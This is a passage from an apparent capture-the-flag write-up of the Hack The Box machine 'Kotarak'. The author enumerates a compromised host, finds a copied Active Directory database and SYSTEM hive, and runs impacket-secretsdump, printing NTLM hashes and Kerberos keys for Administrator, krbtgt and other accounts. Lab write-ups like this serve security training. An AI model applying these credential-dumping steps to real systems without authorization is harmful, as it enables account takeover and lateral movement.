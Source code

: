I got `tomcat`'s shell!



# Shell as `atanas`

### Enumeration

```bash
ls /home
atanas  tomcat
```

It seems that there's one more user named `atanas`.

```bash
tomcat@kotarak-dmz:/home/tomcat/to_archive/pentest_data$ ls
ls
20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
```

I found intereseting files in `/home/tomcat/to_archive/pentest_data`.
They seem to be `ntds.dit` file and `SYSTEM` (hopefully).

Let's download them and try to extract hashes from it.
Then, I extracted hashes using `impacket-secretsdump`.

```bash
┌──(kali㉿kali)-[~/htb/kotarak]
└─$ impacket-secretsdump -ntds kotarak-dmz.ntds.dit -system kotarak-dmz.system LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x14b6fb98fedc8e15107867c4722d1399
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: d77ec2af971436bccb3b6fc4a969d7ff
[*] Reading and decrypting hashes from kotarak-dmz.ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e64fe0f24ba2489c05e64354d74ebd11:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WIN-3G2B0H151AC$:1000:aad3b435b51404eeaad3b435b51404ee:668d49ebfdb70aeee8bcaeac9e3e66fd:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ca1ccefcb525db49828fbb9d68298eee:::
WIN2K8$:1103:aad3b435b51404eeaad3b435b51404ee:160f6c1db2ce0994c19c46a349611487:::
WINXP1$:1104:aad3b435b51404eeaad3b435b51404ee:6f5e87fd20d1d8753896f6c9cb316279:::
WIN2K31$:1105:aad3b435b51404eeaad3b435b51404ee:cdd7a7f43d06b3a91705900a592f3772:::
WIN7$:1106:aad3b435b51404eeaad3b435b51404ee:24473180acbcc5f7d2731abe05cfa88c:::
atanas:1108:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
[*] Kerberos keys from kotarak-dmz.ntds.dit 
Administrator:aes256-cts-hmac-sha1-96:6c53b16d11a496d0535959885ea7c79c04945889028704e2a4d1ca171e4374e2
Administrator:aes128-cts-hmac-sha1-96:e2a25474aa9eb0e1525d0f50233c0274
Administrator:des-cbc-md5:75375eda54757c2f
WIN-3G2B0H151AC$:aes256-cts-hmac-sha1-96:84e3d886fe1a81ed415d36f438c036715fd8c9e67edbd866519a2358f9897233
WIN-3G2B0H151AC$:aes128-cts-hmac-sha1-96:e1a487ca8937b21268e8b3c41c0e4a74
WIN-3G2B0H151AC$:des-cbc-md5:b39dc12a920457d5
WIN-3G2B0H151AC$:rc4_hmac:668d49ebfdb70aeee8bcaeac9e3e66fd
krbtgt:aes256-cts-hmac-sha1-96:14134e1da577c7162acb1e01ea750a9da9b9b717f78d7ca6a5c95febe09b35b8
krbtgt:aes128-cts-hmac-sha1-96:8b96c9c8ea354109b951bfa3f3aa4593
krbtgt:des-cbc-md5:10ef08047a862046
krbtgt:rc4_hmac:ca1ccefcb525db49828fbb9d68298eee
WIN2K8$:aes256-cts-hmac-sha1-96:289dd4c7e01818f179a977fd1e35c0d34b22456b1c8f844f34d11b63168637c5
WIN2K8$:aes128-cts-hmac-sha1-96:deb0ee067658c075ea7eaef27a605908
WIN2K8$:des-cbc-md5:d352a8d3a7a7380b
WIN2K8$:rc4_hmac:160f6c1db2ce0994c19c46a349611487
WINXP1$:aes256-cts-hmac-sha1-96:347a128a1f9a71de4c52b09d94ad374ac173bd644c20d5e76f31b85e43376d14
WINXP1$:aes128-cts-hmac-sha1-96:0e4c937f9f35576756a6001b0af04ded
```